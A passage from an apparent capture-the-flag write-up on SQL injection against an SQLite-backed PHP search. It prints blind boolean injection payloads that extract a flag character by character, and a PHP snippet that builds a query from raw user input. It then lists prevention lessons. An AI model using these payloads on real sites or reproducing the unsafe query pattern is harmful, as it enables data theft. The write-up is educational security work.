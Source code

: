 ### Method 2: Boolean-Based Blind Injection

For scenarios where UNION attacks don't work:

```sql
-- Test table existence
x' OR EXISTS(SELECT 1 FROM system_configs)--

-- Extract flag prefix
x' OR EXISTS(SELECT 1 FROM system_configs WHERE config_value LIKE 'sscit{%')--

-- Character-by-character extraction
x' OR EXISTS(SELECT 1 FROM system_configs WHERE config_value LIKE 'sscit{S%')--
```

## Technical Deep Dive

### Understanding the Vulnerability

The vulnerable code likely looked like this:

```php
<?php
$search = $_GET['search'];
$query = "SELECT * FROM dissidents WHERE name LIKE '%$search%' OR location LIKE '%$search%' OR notes LIKE '%$search%'";
$results = $db->query($query);
?>
```

### SQLite-Specific Techniques

SQLite provides several useful features for injection:
- `sqlite_master` table for schema enumeration
- `sqlite_version()` function for fingerprinting
- Support for UNION operations
- Boolean logic for blind injection

## Key Learnings

This challenge reinforced several important concepts:

1. **Input Validation**: Never trust user input in SQL queries
2. **Parameterized Queries**: Use prepared statements to prevent injection
3. **Database Security**: Implement proper access controls for sensitive tables
4. **Error Handling**: Don't expose database errors to users

## Prevention Measures

To prevent SQL injection vulnerabilities:

### 1. Use Parameterized Queries
